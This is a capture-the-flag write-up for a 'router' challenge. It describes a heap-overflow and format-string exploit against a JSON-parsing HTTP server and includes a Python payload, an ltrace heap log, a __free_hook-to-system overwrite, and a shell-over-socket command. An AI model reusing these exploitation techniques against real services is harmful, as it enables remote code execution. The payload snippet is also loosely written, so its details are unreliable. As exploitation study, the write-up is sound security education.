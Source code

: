 ## Welcome back!

My solution is, in python language,

```python
# input starts with 0x67 printable characters.

"""
{
	"%s": {
	"%s": {
	"%s": "%s",
	"%s": "%s"
}
""" % "A" * 16, "A" * 0x67, ("A" * 31 + "\xff").ljust(0x28) + p64(0x7f) + p64(target), input, "a"
```

After doing this, target + 5 + 8 is filled with our input. For ease of explanation, I attached ltrace log.

```
$ ltrace -fie malloc+free+calloc+snprintf ./router
listening on port: 8080
[pid 13716] [0x403ffe] router->malloc(56)                                                        = 0x13ba010
[pid 13716] [0x401422] router->calloc(1, 1024)                                                   = 0x13ba050
[pid 13716] [0x401657] router->malloc(7)                                                         = 0x13ba870
[pid 13716] [0x40177b] router->malloc(24)                                                        = 0x13ba890
[pid 13716] [0x4017a6] router->malloc(7)                                                         = 0x13ba8b0
[pid 13716] [0x4018e3] router->malloc(75)                                                        = 0x13ba8d0
[pid 13716] [0x40177b] router->malloc(24)                                                        = 0x13ba930
[pid 13716] [0x4017a6] router->malloc(15)                                                        = 0x13ba950
[pid 13716] [0x4018e3] router->malloc(4)                                                         = 0x13ba970
[pid 13716] [0x40177b] router->malloc(24)                                                        = 0x13ba990
[pid 13716] [0x4017a6] router->malloc(13)                                                        = 0x13ba9b0
[pid 13716] [0x4018e3] router->malloc(17)                                                        = 0x13ba9d0
[pid 13716] [0x40177b] router->malloc(24)                                                        = 0x13ba9f0
[pid 13716] [0x4017a6] router->malloc(5)                                                         = 0x13baa10
[pid 13716] [0x4018e3] router->malloc(13)                                                        = 0x13baa30
[pid 13716] [0x401952] router->malloc(451)                                                       = 0x13baa50
[pid 13716] [0x404090] router->calloc(1, 8192)                                                   = 0x13bac20
// "A" * 16
[pid 13716] [0x40224e] router->calloc(1, 17)                                                     = 0x13bce60
[pid 13716] [0x401fb7] router->calloc(1, 32)                                                     = 0x13bce80
// case 1
[pid 13716] [0x4028a2] router->free(0x13bce60)                                                   = <void>
[pid 13716] [0x4028ae] router->free(0x13bce80)                                                   = <void>
// "A" * 0x67
[pid 13716] [0x40224e] router->calloc(1, 104)                                                    = 0x13bceb0
[pid 13716] [0x401fb7] router->calloc(1, 32)                                                     = 0x13bce80
// case 1
[pid 13716] [0x4028a2] router->free(0x13bceb0)                                                   = <void>
[pid 13716] [0x4028ae] router->free(0x13bce80)                                                   = <void>
// ("A" * 31 + "\xff").ljust(0x28) + p64(0x7f) + p64(target + 5 - 8)
[pid 13716] [0x40224e] router->calloc(1, 32)                                                     = 0x13bce80
[pid 13716] [0x401fb7] router->calloc(1, 32)                                                     = 0x13bcf20
[pid 13716] [0x40224e] router->calloc(1, 104)                                                    = 0x13bceb0
[pid 13716] [0x401fb7] router->calloc(1, 32)                                                     = 0x13bcf50
[pid 13716] [0x40292f] router->calloc(1, 16)                                                     = 0x13bce60
[pid 13716] [0x401f43] router->calloc(1, 32)                                                     = 0x13bcf80
// calloc returns target + 5 + 8!
[pid 13716] [0x40224e] router->calloc(1, 104)                                                    = 0x60f195
[pid 13716] [0x401fb7] router->calloc(1, 32)                                                     = 0x13bcfb0
// don't free it, with case 2.
[pid 13716] [0x40224e] router->calloc(1, 17)                                                     = 0x13bcfe0
[pid 13716] [0x401fb7] router->calloc(1, 32)                                                     = 0x13bd000
[pid 13716] [0x40292f] router->calloc(1, 16)                                                     = 0x13bd030
[pid 13716] [0x401f43] router->calloc(1, 32)                                                     = 0x13bd050
[pid 13716] [0x403d41] router->snprintf("0x40bf3d 0x7f6d45c8a700 0x1 0x20"..., 8191, "%p %p %p %p %p %p %p %p %p %p %p"..., 0x40bf3d, 0x7f6d45c8a700, 0x1, 0x2000, 0x13bac20, 0x7ffcf2dfcfb0, 0xfffffff500000006, 0x40, 0x13ba8da, 0x13ba9d0, 0xa6f989b94487cc00, 0x7ffcf2dfcfb0, 0x403f50, nil, 0x2000, 0x13bac20, 0x7ffcf2dfcff0, 0x7ffcf2dfd070, 0x403c58, 0x7ffcf2dfd070, 0x4040c0) = 299
[pid 13716] [0x404135] router->free(0x13ba460)                                                   = <void>
[pid 13716] [0x404144] router->free(0x13bac20)                                                   = <void>
```

First I leaked the pointer by changing response template pointer and triggering FSB. After doing this, I found that server has same libc with me. I'm using ubuntu 16.04 x64 LTS.

Then I used 0x7f value in stdout + 16 + 5, and modified free_hook pointer to system. One additional string with case 1 will trigger free with our controlled buffer, so I added this. Here is the reason that I couldn't use one-gadget for the challenge.

```json
  ...,
  "sh <&4 >&4": {
}
```

Since it was fork-and-accept server, launching a shell is not enough, but we must dup2 to give some commands. Assuming that no extra fds are opened before running the server, the fd would be 4 (0, 1, 2, accept-socket 3, client-socket 4). Then it popped a shell on local.

But the script didn't work well on remote. I spent nearly 12 hours trying some ROPs, thinking that the libc can be differ, or patched...

But this was not the case.. My teammate found the reason. Let's see the code below, which reads the HTTP request.

```c
char *__fastcall read_request(int a1, _QWORD *a2)
{
  src = calloc(1uLL, 0x400uLL);
  if ( src )
  {
    do
    {
      v4 = read(a1, src, 0x400uLL);
      if ( v4 <= 0 )
        break;
      if ( v3 + v4 > size )
      {
        size += 1024LL;
        if ( size > 16384 )
        {
          fwrite("buffer limit reached\n", 1uLL, 0x15uLL, stderr);
          goto LABEL_11;
        }
        ptr = realloc(ptr, size);
        if ( !ptr )
        {
          fwrite("realloc: out of memory\n", 1uLL, 0x17uLL, stderr);
          goto LABEL_11;
        }
      }
      memcpy(&ptr[v3], src, v4);
      v3 += v4;
    }
    while ( v4 > 1023 );
    *a2 = v3;
    ptr[v3] = 0;
    result = ptr;
  }
  else
  {
    fwrite("out of memory\n", 1uLL, 0xEuLL, stderr);
LABEL_11:
    *a2 = 0LL;
    result = 0LL;
  }
  return result;
}
```

This routine receives 1024 bytes a time, and if the return value and current buffer size exceeds the allocated size, it expands the buffer.
The problem is, it relies on short-reads. What if the return value of the read call is less than 1024 while sending more than it? I assume it was, because of the network problem. It really depends on MTU value of every nodes between my computer and the server. The distance between stdout + 16 and free_hook is really far for this libc, so it couldn't control the free hook value and exited.

To resolve this, we bought a cloud instance in germany (the server was in germany) and ran the exploit. Shell popped.

This challenge was really fun since it was realistic(I ran AFL for finding a NULL-dereference crash in the json parser) and allowed a unlimited size heap overflow. However, Kaspersky, please read [this](https://github.com/pwning/docs/blob/master/suggestions-for-running-a-ctf.markdown#remote) before making a challenge.

That's all. Thanks for reading, and have a good day!